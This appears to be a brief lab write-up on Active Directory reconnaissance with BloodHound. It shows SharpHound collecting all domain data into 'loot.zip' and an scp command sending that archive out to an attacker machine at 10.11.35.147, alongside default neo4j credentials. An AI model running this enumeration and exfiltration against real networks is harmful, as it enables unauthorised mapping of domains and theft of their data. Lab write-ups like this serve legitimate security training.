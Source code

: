 ### Installing `Bloodhound`

```bash
apt install bloodhound
```

### Collecting data into json w/ `SharpHound`

```powershell
PS C:\Users\Administrator> . .\Downloads\SharpHound.ps1 
PS C:\Users\Administrator> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip

----------------------------------------------- 
Initializing SharpHound at 7:34 AM on 6/28/2021                                                                      
-----------------------------------------------                                                                      
   
Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container 
   
[+] Creating Schema map for domain CONTROLLER.LOCAL using path CN=Schema,CN=Configuration,DC=CONTROLLER,DC=LOCAL     
[+] Cache File not Found: 0 Objects in cache   
[+] Pre-populating Domain Controller SIDS 
Status: 0 objects finished (+0) -- Using 97 MB RAM 
Status: 66 objects finished (+66 8)/s -- Using 102 MB RAM 
Enumeration finished in 00:00:00.6725714                           
Compressing data to C:\Users\Administrator\20210628073430_loot.zip 
You can upload this file directly to the UI 

SharpHound Enumeration Completed at 7:34 AM on 6/28/2021! Happy Graphing! 
```

### Transferring the loot.zip folder to our Attacker Machine

```powershell
PS C:\Users\Administrator> scp .\20210628073430_loot.zip mimiron@10.11.35.147:/tmp 
mimiron@10.11.35.147's password: 
20210628073430_loot.zip     100% 9559   298.7KB/s   00:00
```

### Mapping the network w/ `Bloodhound`

```bash
# Open a terminal and type the following:
neo4j console # default credentials -> neo4j:neo4j
# In another terminal, open bloodhound:
bloodhound 
```
